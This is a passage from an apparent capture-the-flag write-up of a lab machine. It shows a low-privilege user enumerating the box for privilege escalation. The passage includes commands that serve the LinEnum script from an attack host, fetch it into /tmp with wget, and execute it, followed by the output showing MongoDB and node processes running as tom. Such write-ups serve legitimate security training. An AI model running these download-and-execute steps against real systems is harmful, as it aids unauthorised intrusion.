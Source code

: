 ```text
mark@node:~$ locate user.txt
/home/tom/user.txt
mark@node:~$ cat /home/tom/user.txt 
cat: /home/tom/user.txt: Permission denied
```

We need to either escalate our privileges to tom or root in order to view the flag.

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, move to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Below are the important snippets of the script output that will allow us to escalate privileges to tom.

```text
### NETWORKING  ##########################################
.....
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -
.....### SERVICES #############################################
[-] Running processes:USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
.....
tom       1196  0.0  7.3 1028640 56072 ?       Ssl  03:44   0:06 /usr/bin/node /var/www/myplace/app.js
mongodb   1198  0.5 11.6 281956 87956 ?        Ssl  03:44   2:43 /usr/bin/mongod --auth --quiet --config /etc/mongod.conf
tom       1199  0.0  5.9 1074616 45264 ?       Ssl  03:44   0:07 /usr/bin/node /var/scheduler/app.js
....
```
